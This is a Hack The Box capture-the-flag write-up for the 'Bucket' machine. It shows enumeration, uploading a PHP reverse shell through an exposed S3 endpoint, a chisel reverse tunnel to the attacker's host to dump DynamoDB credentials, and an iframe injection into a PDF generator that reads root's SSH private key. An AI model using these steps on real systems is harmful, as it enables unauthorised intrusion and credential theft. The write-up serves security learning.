

# Bucket

## Overview

To begin a webserver is found to be running on the server. On this server we find indicators that this computer is similar to Amazon's AWS. There is a program from Amazon ```aws cli``` that allows more access to the server. Using the command line we can upload files. I then upload a php reverse shell to gain a foothold on the server. From there a database is found that has different passwords. One of the passwords allows for SSH access to the server. Once access is acheived we find a service that runs as root. This service hosts an app on the server. The app reads in data from the database and adds that data to a webpage. We therefore can trick the app into reading a local file like root's id_rsa. From there root access is gained.

## Enumeration

To start an nmap scan is run on against the server. The scan returns 2 open ports 22 and 80. The first scan was an scan of all ports while the second scan gets more information from the port. 

```bash
[sudo] password for tc:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 19:00 EDT
Nmap scan report for 10.10.10.212
Host is up (0.021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 15.38 seconds
```

```bash
sudo nmap -p22,80 -sC -sV 10.10.10.212 -oA nmap/info
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 19:02 EDT
Nmap scan report for 10.10.10.212
Host is up (0.021s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://bucket.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.58 seconds
```

A hostname ```bucket.htb``` is found from the nmap scan. Using this hostname we perform a subdomain bruteforce. Doing this we find a subdomain called ```s3```. The subdomain was found using gobuster in vhost mode. Browsing to the new subdomain shows the status of 2 different services s3 and dynamoDB.



Searching these 2 services points towards Amazon's AWS. While searching this [link](https://blog.securelayer7.net/hands-on-aws-s3-bucket-vulnerabilities/) was found that detailed interacting with an s3 service from the command line. I then found out that we could upload files to the server using the s3 instance. I then uploaded a php reverse shell to the server and then navigated to it. Once I navigated to the shell I gained a remote shell from the server. The upload and being able to navigate to it was a little finiky and it took a couple of times to get it to work.

### Uploading files

```bash
aws s3 ls s3://adserver/ --endpoint-url=http://s3.bucket.htb/
                           PRE images/
2021-04-02 21:46:04       5344 index.html
tc@ubuntu:~/htb/Bucket$ aws s3 cp test.html s3://adserver/test.html --endpoint-url=http://s3.bucket.htb/
upload: ./test.html to s3://adserver/test.html
tc@ubuntu:~/htb/Bucket$ aws s3 ls s3://adserver/ --endpoint-url=http://s3.bucket.htb/
                           PRE images/
2021-04-02 21:46:04       5344 index.html
2021-04-02 21:46:58         18 test.html
```

### Uploading php shell

```bash
cp test.php s3://adserver/test.php --endpoint-url=http://s3.bucket.htb/
upload: ./test.php to s3://adserver/test.php
```

## Getting user

With the shell we can find credentials to access the dynamoDB instance in the db.php file. The dynamoDB instance is running on the server however, it can only be accessed from localhost. Therefore I used chisel to forward the port to my local machine. The port that dynamoDB runs on is 4566. The commands to forward the port to localhost with chisel are below.

```bash
# On host machine 
./chisel server -p 9999 --reverse
# Above listens for the incoming chisel
# After we get a connection I ran the following to test
aws dynamodb list-tables --endpoint-url http://localhost:4566
{
    "TableNames": [
        "users"
    ]
}

# On victim machine
./chisel client 10.10.14.25:9999 R:4566:127.0.0.1:4566
2021/04/03 03:14:58 client: Connecting to ws://10.10.14.25:9999
2021/04/03 03:14:58 client: Connected (Latency 19.45947ms)
```

Once the database is forwarded we can dump the information from the table. First we get what tables are in the database then we dump the information from the users table.

```bash
aws dynamodb list-tables --endpoint-url http://localhost:4566
{
    "TableNames": [
        "users"
    ]
}

aws dynamodb scan --table-name users --endpoint-url http://localhost:4566
{
    "Items": [
        {
            "password": {
                "S": "{redacted}"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "{redacted}"
            },
            "username": {
                "S": "{redacted}"
            }
        },
        {
            "password": {
                "S": "{redacted}"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

Once we dump the information from the users table we can ssh into the server using the roy user. The user list can be found by going over ```/etc/passwd```.

## User

As the user we notice that there is an app running on port 8000. The source that is running on port 8000 is now visible to us. Looking over the source of the app we notice that the app takes input from the dynamoDB service and adds it to a webpage. After it adds information to a page it runs a program that creates a pdf version of the webpage with the output. Looking at the source the app enters into the table ```alerts```. Then it pulls rows where the title is equal to ```Ransomware```. It then puts data from the row into a webpage. It is this webpage that the program is passed to create a PDF. 

In order to get root access we need to find an interesting file to read. A good file to search for is an id_rsa file in root's home directory. In order to add the contents of the file we can use an iframe element like we are embeding a google map. 

Below is the source code of the app with some comments to make it easier to understand.

```php
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
        if($_POST["action"]==="get_alerts") {
                date_default_timezone_set('America/New_York');
                $client = new DynamoDbClient([
                        'profile' => 'default',
                        'region'  => 'us-east-1',
                        'version' => 'latest',
                        'endpoint' => 'http://localhost:4566'
                ]);

				// Get data from a dynamodb table called alerts
                $iterator = $client->getIterator('Scan', array(
                        'TableName' => 'alerts',
                        'FilterExpression' => "title = :title",              
						// Only pull rows where title=Ransomware
						'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
                ));

                foreach ($iterator as $item) {
                        $name=rand(1,10000).'.html';
                        
			// Put the data from the data col into a html file in files with a random name			
			file_put_contents('files/'.$name,$item["data"]);
                }
				//This is an example of how to use this command line to connect and read the file that you create. 
				//Pd4Cmd is a tool to create a pdf from a html file on the command line. 
                passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
        }
}
else
{
?>
```

## Getting root

To start we need to create a table in the databse with the name of alerts. This is still working with the forwarded dynamoDB.

```bash
aws dynamodb create-table \
 --table-name alerts \
 --attribute-definitions \
 AttributeName=title,AttributeType=S \
 AttributeName=data,AttributeType=S \
 --key-schema \
 AttributeName=title,KeyType=HASH \
 AttributeName=data,KeyType=RANGE \
 --provisioned-throughput \
 ReadCapacityUnits=10,WriteCapacityUnits=5 \
 --endpoint-url http://localhost:4566
```

After we create the table we can add a row with a test case making sure the attack will work.

```bash
aws dynamodb put-item \
 --table-name alerts \
 --item '{
 "title":{"S": "Ransomware"},
 "data":{"S": "Test"}

 }' \
 --return-consumed-capacity TOTAL \
 --endpoint-url http://localhost:4566
```

In order to trigger the exploit we need to curl localhost and post ```action=get_alerts``` while we do. This will then create a pdf file in the files folder. Just download the file and open it to see the results.

Finally getting root's id_rsa.

```bash
aws dynamodb put-item  --table-name alerts  --item '{   
"title":{"S": "Ransomware"},                                                                                                       
"data":{"S": "<iframe src='/root/.ssh/id_rsa' width=100% height=100%</iframe>"}                                                    
  
}'  --return-consumed-capacity TOTAL  --endpoint-url http://localhost:4566
```

Follow this up with ```curl -d "action=get\_alerts" -X POST http://localhost:8000``` and get the PDF to get the result.